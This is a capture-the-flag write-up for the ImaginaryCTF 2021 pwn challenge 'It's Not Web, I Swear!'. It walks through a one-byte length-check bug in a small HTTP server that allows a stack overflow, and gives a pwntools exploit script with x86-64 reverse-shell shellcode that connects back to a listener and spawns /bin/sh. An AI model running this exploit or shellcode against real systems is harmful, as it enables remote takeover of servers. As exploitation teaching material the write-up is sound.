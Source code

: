 # ImaginaryCTF 2021: It's Not Web, I Swear!

![date](https://img.shields.io/badge/date-27.07.2021-brightgreen.svg)  ![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg) 
![pwn category](https://img.shields.io/badge/category-pwn-lightgrey.svg) ![score](https://img.shields.io/badge/score-450-blue.svg) ![solves](https://img.shields.io/badge/solves-17-brightgreen.svg)

## Description

In the spirit of DEFCON, I present you with this challenge that is not a web challenge! Go forth and pwn this notweb challenge

## Attached files
- [server](https://imaginaryctf.org/r/0AEB-server)

## Summary
To acquire the flag we had to find buffer overflow to override return pointer of a function to jump into our shellcode. However when our code is being executed we would already have been disconnected from the server, therefor we needed to reestablish the connection.

## Flag
``` ictf{all_pwn_and_no_web_makes_elliot_a_dull_boy} ```

## Detailed solution
After calling using **checksec** on challenge's binary we discover that there are no security features added by compiler, it even has executable stack
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
We can now look how the server works internally, in the **main** function, just after port passed as program argument gets verified, **startServer** is called. Then the program falls into **accept** loop. For each client connected to the server a new process is created to handle the communication.

In **respond** function firstly program checks if the request starts with ```GET /```
```
   0x4011b8 <respond+235>    mov    rsi, rdx
   0x4011bb <respond+238>    mov    rdi, rax
 ► 0x4011be <respond+241>    call   strstr@plt <strstr@plt>
        haystack: 0x604700 ◂— 'GET / HTTP/1.1\n'
        needle: 0x4017f8 ◂— 0x2f20544547 /* 'GET /' */
   0x4011c3 <respond+246>    cmp    qword ptr [rbp - 0x40], rax
   0x4011c7 <respond+250>    jne    respond+455 <respond+455>
```
our request has to pass that test in order to get to vulnerable path checking.

Then the program searches for ```<space>HTTP``` character sequence and number of characters between the end of ```GET /``` and the start of ```<space>HTTP``` is calculated. That number will be referred to as path length.

It is important to note that path length is stored as 32-bit variable
```
   0x401253 <respond+390>    sub    rdx, rax
   0x401256 <respond+393>    mov    rax, rdx
   0x401259 <respond+396>    mov    dword ptr [rbp - 0x54], eax
   0x40125c <respond+399>    mov    eax, dword ptr [rbp - 0x54]
```
Just after being calculated it is passed to **check_len** function, which returns **true** if length is below 100 and **false** if it is longer ... or ... wait!

```
   0x401067 <check_len+4>     mov    eax, edi
   0x401069 <check_len+6>     mov    byte ptr [rbp - 4], al
   0x40106c <check_len+9>     cmp    byte ptr [rbp - 4], 0x63
   0x401070 <check_len+13>    setbe  al
   0x401073 <check_len+16>    movzx  eax, al
```
it only checks if the least significant byte has value less than 100 ! They have even put it in another function to make it harder to spot!

When the function returns true, our path is copied onto the stack using full 32-bit path length. 
```
   0x40126d <respond+416>    mov    eax, dword ptr [rbp - 0x54]
   0x401270 <respond+419>    movsxd rdx, eax
   0x401273 <respond+422>    mov    rcx, qword ptr [rbp - 0x50]
   0x401277 <respond+426>    lea    rax, [rbp - 0xe0]
   0x40127e <respond+433>    mov    rsi, rcx
   0x401281 <respond+436>    mov    rdi, rax
   0x401284 <respond+439>    call   memcpy@plt <memcpy@plt>
```
There are ``0xe0`` bytes to get to the end of stack frame, then we have **main**'s function ``rbp`` which we can safely corrupt, and then there is return pointer.

However we have to check if there are any local variables that after getting corrupted would result in process crash. 
```
   0x401510 <respond+1091>    mov    rax, qword ptr [rbp - 0x40]
   0x401514 <respond+1095>    mov    rdi, rax
   0x401517 <respond+1098>    call   free@plt <free@plt>
```

There is only one such variable which is a pointer to the buffer that our message was **recv**'ed to. It is getting **free**'d just before return instruction, and never used elsewhere, so we can just zero it out.

We will create simple python script to help us sending data to the server
```
#!/bin/python

from pwn import *

import os

if len(sys.argv) > 1:
    io = remote('localhost', int(sys.argv[1]))
else:
    io = remote('not-web.chal.imaginaryctf.org', 42042)

padding_len = 0x100 - (240 & 0xff)

io.sendline(
        b'GET /' +
        b'A' * 160 +
        b'\x00\x00\x00\x00\x00\x00\x00\x00' +
        b'A' * 0x40 +
        b'BBBBBBBB' +
        b'D' * padding_len +
        b' HTTP'
)
```
We also need to add some padding to our path to make the lower bits of path length be 0

As expected the program crashes when trying to return to address ``0x4242...``
``` 
► 0x40158c <respond+1215>    ret    <0x4242424242424242>
```

Now we need to find address to return to, conveniently author of the challenge kindly left us useful ROP gadget at the end of **startServer** function
```
   0x40105e <startServer+375>    jmp    rsp
```
Stack pointer would now point right after the return pointer which in last example we have set to B's after modifying our script we can just put our shellcode there.
```
...
JMP_RSP = 0x40105e

os.system('nasm shellcode.asm')

shellcode = open('shellcode', 'rb').read()
payload_len = 240 + len(shellcode)
padding_len = 0x100 - (payload_len & 0xff)
...
        b'A' * 0x40 +
        p64(JMP_RSP) +
        shellcode +
        b'D' * padding_len +
...
```

Unfortunately at this point the server has already shut the connection with us down
```
   0x40152b <respond+1118>    mov    esi, 1
   0x401530 <respond+1123>    mov    edi, 1
   0x401535 <respond+1128>    call   shutdown@plt <shutdown@plt>
   0x40153a <respond+1133>    mov    edi, 1
   0x40153f <respond+1138>    call   close@plt <close@plt>
```
Therefor we have to reestablish connection to us in our shellcode:
```
[bits 64]
start:
	mov rax, 41		; socket
	mov rdi, 2		; AF_INET
	mov rsi, 1		; SOCK_STREAM
	xor rdx, rdx
	syscall

	mov r14, rax		; we need to save socket fd

	mov rdi, rax
	mov rax, 42		; connect
	lea rsi, [rel server]
	mov rdx, 16
	syscall

				; using dup2 syscalls we can redirect
				; all standard streams to our socket fd
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 0
	syscall
	
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 1
	syscall
	
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 2
	syscall

	mov rax, 59		; execve
	lea rdi, [rel sh]	; now we can execute bash
	lea rsi, [rel zero]
	lea rdx, [rel zero]
	syscall

zero:	dq 0
sh:	db "/bin/sh", 0
server:	db 0x02,0x00,0x05,0x39, 127,   0,   0,   1,0xa0,0x50,0x55,0x55,0x55,0x55,0x00,0x00
;                    PORT      IP ADDRESS
```

Note that port ( 1337 in this example ) needs to be in **big endian** order.
Now we can just start raw tcp server on specified port and check the result locally.

```
...
os.system('nasm shellcode.asm')

s = listen(1337)
...
c = s.wait_for_connection()
c.interactive()
```
Just remember to put **listen** before sending line to challenge's server and to **wait for sonnection** at the end of your sploit file.

After our shellcode gets executed we will have shell.
The only thing that is left to do is to put public ip into our code, make sure that the port is correctly forwarded, and send our exploit to challenge's server.
You can then use ls and cat to acquire the flag.

You can also put a write syscall after dup2 syscalls to make it more obvious that our shellcode has connected to our server. But I will leave that part to the reader.
